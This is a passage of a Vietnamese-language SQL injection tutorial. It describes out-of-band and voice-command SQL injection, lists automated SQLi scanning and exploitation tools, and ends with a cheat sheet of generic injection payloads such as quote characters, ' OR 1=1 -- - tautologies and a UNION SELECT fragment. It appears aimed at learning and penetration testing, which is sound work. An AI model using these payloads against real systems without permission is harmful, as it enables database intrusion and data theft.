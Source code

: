 - **SQLi ngoài băng tần:** SQL Injection ngoài băng tần không phổ biến lắm, chủ yếu là do nó phụ thuộc vào các tính năng được bật trên máy chủ cơ sở dữ liệu đang được ứng dụng web sử dụng. SQL Injection ngoài băng tần xảy ra khi kẻ tấn công không thể sử dụng cùng một kênh để khởi động cuộc tấn công và thu thập kết quả. Các kỹ thuật ngoài băng tần, cung cấp cho kẻ tấn công một giải pháp thay thế cho các kỹ thuật dựa trên thời gian suy diễn, đặc biệt nếu phản hồi của máy chủ không ổn định lắm (làm cho một cuộc tấn công dựa trên thời gian suy diễn không đáng tin cậy).

- **Sql Injection dựa trên âm thanh:** Đây là một phương pháp tấn công sql injection có thể được áp dụng trong các ứng dụng cung cấp quyền truy cập vào cơ sở dữ liệu bằng lệnh thoại. Kẻ tấn công có thể lấy thông tin từ cơ sở dữ liệu bằng cách gửi các truy vấn sql kèm theo âm thanh.

### Các công cụ quét lỗ hổng SQL Injection:

- SQLMap – Công cụ quét cơ sở dữ liệu và tiêm SQL tự động
- jSQL Injection – Công cụ Java để tiêm SQL tự động
- BBQSQL – Một công cụ khai thác SQL-Injection mù
- NoSQLMap – Pwnage cơ sở dữ liệu NoSQL tự động
- Whitewidow – Máy quét lỗ hổng SQL
- DSSS – Máy quét lỗ hổng SQLi nhỏ
- explore – Định dạng kiểm tra lỗ hổng trên web
- Blind-Sql-Bitshifting – Blind SQL-Injection qua Bitshifting
- Leviathan – Bộ công cụ kiểm tra hàng loạt trên phạm vi rộng
- Blisqy – Khai thác phương thức tiêm SQL mù dựa trên thời gian trong HTTP-Headers (MySQL / MariaDB)

## Các payload SQL Injection chung

```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or #
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/
+        addition, concatenate (or space in url)
||        (double pipe) concatenate
%        wildcard attribute indicator
@variable    local variable
@@variable    global variable
# Numeric
AND 1
AND 0
```